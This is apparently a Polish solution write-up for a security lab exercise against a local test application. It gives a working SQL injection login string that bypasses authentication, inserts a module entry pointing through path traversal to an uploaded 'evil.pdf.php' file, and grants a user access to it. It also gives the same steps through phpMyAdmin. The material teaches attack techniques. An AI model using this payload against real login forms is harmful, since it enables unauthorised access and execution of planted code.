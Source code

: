 # Wykonanie [ROZWIĄZANIE]

## Metoda SQLi

Nie rozwodząc się za bardzo nad działaniem tego zapytania, w formularzu logowania należy wprowadzić:

```
Login: ' OR 1=1; INSERT INTO modules(path, name) VALUES ('../../uploads/evil.pdf.php', 'Evil'); INSERT INTO permissions(module_id, user_id) VALUES (2, 1); --

Hasło: <dowolne>
```

**Na końcu loginu jest spacja!**

## phpMyAdmin

1. Zaloguj się do panelu (localhost:8081) \
2. Rozwiń bazę danych **baim_db** \
3. Wybierz tabelę **modules**

![Widok phpmyadmin](images/phpmyadmin.png)

4. Przyciskiem na samej górze przejdź do zakładki **Insert**

![Przycisk insert](images/insert.png)

5. Wpisz następujące wartości (nie trzeba wpisywać id) i kliknij GO

![Widok insert modules](images/modules.png)

6. Następnie, przejdź do tabeli **permissions** i dodaj dla użytkownika **baim** (jego id jest równe 1) dostęp do modułu o id równym 2

![Widok insert permissions](images/permissions.png)

7. Tabele powinny wyglądać tak:

![Modules](images/modules1.png)
![Permissions](images/permissions1.png)

Po odświeżeniu panelu testowanej aplikacji (localhost:8080), powinien pojawić się moduł o nazwie **Evil**
